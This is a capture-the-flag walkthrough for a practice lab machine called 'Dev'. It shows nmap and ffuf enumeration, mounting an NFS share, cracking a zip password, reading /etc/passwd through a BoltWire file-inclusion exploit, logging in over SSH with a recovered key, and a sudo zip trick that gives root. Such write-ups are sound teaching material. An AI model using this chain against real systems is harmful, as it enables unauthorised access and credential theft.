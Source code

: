 ### Dev machine by TCM

IP={target_IP}

Nmap scan: 
```
   PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      41572/udp   mountd
|   100005  1,2,3      45424/udp6  mountd
|   100005  1,2,3      46903/tcp6  mountd
|   100005  1,2,3      54313/tcp   mountd
|   100021  1,3,4      33563/tcp6  nlockmgr
|   100021  1,3,4      39823/tcp   nlockmgr
|   100021  1,3,4      47204/udp6  nlockmgr
|   100021  1,3,4      55634/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
33311/tcp open  mountd   1-3 (RPC #100005)
39823/tcp open  nlockmgr 1-4 (RPC #100021)
54313/tcp open  mountd   1-3 (RPC #100005)
54861/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf -u http://{target_IP}/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt    

`/public`\
`/src`\
`/app`

### ffuf -u http://{target_IP}:8080/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
`/dev`

We also have nfs here:\
`showmount -e {target_IP}`

lets create a folder /dev in /mnt\
`mkdir dev` and mount the file here\
`mount -t  nfs {target_IP}:/srv/nfs /mnt/dev`

and we have a file `save.zip`\
to unzip it we need a password

To crack it we need a tool fcrackzip (apt install fcrackzip)\
`fcrack -v -u -D -p /usr/share/wordlist/rockyou.txt save.zip`

we got a password:\
`PASSWORD FOUND!!!!: pw == java101`

lets unzip it:\
`unzip save.zip > java101`
and here we go, we have 2 files:
`id_rsa` and `todo.txt`

`cat todo.txt`
```
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```
From ffuf we have some path http://{target_IP}/app

lets go to config http://{target_IP}/app/config/

and we found
```
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
    
```


By browsing we found the exploit for BoltWire

https://www.exploit-db.com/exploits/48411

by dfollowing exploit step we got LFI:

http://{target_IP}:8080/dev/index.php?p=action.search&action=../../../../../etc/passwd


and we found the user\
`jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash`

We now know that user is `jeanpaul`, lets try to login via ssh:

ssh -i id_rsa jeanpaul@{target_IP}

the passphrase for id_rsa is `I_love_java`

and we got a ssh session.

---

Privilage Escalation

By typing `sudo -l`

we could privEsc via zip

Go to https://gtfobins.github.io/gtfobins/zip/

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'

```

Run it in ssh session:
```
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
```

```
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat flag.txt
Congratz on rooting this box !
#` 
```
### Congrats!